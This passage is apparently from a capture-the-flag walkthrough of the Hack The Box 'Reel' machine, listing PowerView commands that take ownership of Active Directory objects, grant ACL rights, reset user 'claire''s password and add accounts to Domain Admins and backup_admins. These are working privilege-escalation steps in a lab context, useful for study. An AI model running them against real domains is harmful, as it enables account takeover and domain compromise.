 Set-DomainObjectOwner -Credential $Cred -TargetIdentity "Domain Admins" -OwnerIdentity harmj0y
Now, with ownership of the object, you may modify the DACL of the object however you wish. For more information about that, see the WriteDacl edge section.

Set-DomainObjectOwner -Credential $Cred -Identity "claire" -OwnerIdentity tom
 
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All -Verbose
 
net group "Domain Admins" maria /add

Get-DomainGroupMember -Identity 'Domain Admins'

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-52.png)

`Set-DomainObjectOwner -identity claire -OwnerIdentity tom`

`Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword`


```powershell
$cred = ConvertTo-SecureString "P@ssw0rd123!" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-54.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-53.png)

## Privesc: claire to Backup_Admins

https://jadu101.github.io/Hackthebox%F0%9F%93%A6/Windows%F0%9F%93%98/HTB-Forest#writedacl

`net group backup_admins claire /add`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-55.png)

